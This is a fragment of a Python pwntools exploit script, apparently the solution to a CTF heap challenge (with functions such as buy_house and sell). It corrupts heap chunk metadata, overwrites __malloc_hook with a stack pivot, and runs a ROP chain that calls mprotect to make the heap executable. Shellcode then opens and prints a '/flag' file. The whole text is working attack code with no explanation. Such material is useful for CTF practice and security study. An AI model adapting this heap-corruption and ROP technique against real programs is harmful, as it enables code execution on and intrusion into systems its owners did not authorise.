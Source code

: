 ```
    upgrade(1, "\x22" * 0xb0 + p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d30) + p64(heap_base + 0x40))

    libc.address = libc_base
    malloc_hook = libc.symbols["__malloc_hook"]
    mprotect = libc.symbols["mprotect"]
    leave_ret = libc_base + 0x0000000000058373
    pop_rdi_ret = libc_base + 0x0000000000026542
    pop_rsi_ret = libc_base + 0x0000000000026f9e
    pop_rdx_ret = libc_base + 0x000000000012bda6
    call_rdx = libc_base + 0x0000000000143650
    ROP_CHAIN = p64(pop_rdi_ret) + p64(heap_base) + \
                p64(pop_rsi_ret) + p64(0x4000) + \
                p64(pop_rdx_ret) + p64(7) + p64(mprotect) + \
                p64(pop_rdx_ret) + p64(heap_base + 0x1780) + p64(call_rdx)

    ROP_CHAIN = ROP_CHAIN.ljust(0x1700 - 0x16a0, "\x90")

    ROP_CHAIN += "/flag\0"

    ROP_CHAIN = ROP_CHAIN.ljust(0x1780 - 0x16a0, "\x90")

    buffer_addr = heap_base + 0x1700
    heap_addr = heap_base + 0x2000

    code = asm(pwnlib.shellcraft.amd64.linux.open(buffer_addr, 0, 2).replace("push SYS_open", "push 2"))
    code += asm(pwnlib.shellcraft.amd64.linux.syscall('SYS_read', 'rax', heap_addr, 0x100))
    code += asm(pwnlib.shellcraft.amd64.linux.syscall('SYS_write', 1 , heap_addr, 0x100).replace("push SYS_write", "push 1"))
    code += asm(pwnlib.shellcraft.amd64.linux.syscall('SYS_exit', 0))

    ROP_CHAIN += code

    buy_house(6, 0x217, ROP_CHAIN)
    buy_house(7, 0x217, p64(malloc_hook) * 0x40)
    buy_super(p64(leave_ret) * 2)
    sell(1)
    buy_house(1, heap_base + 0x16a0 - 8, ROP_CHAIN, logging = True)

    p.interactive()

```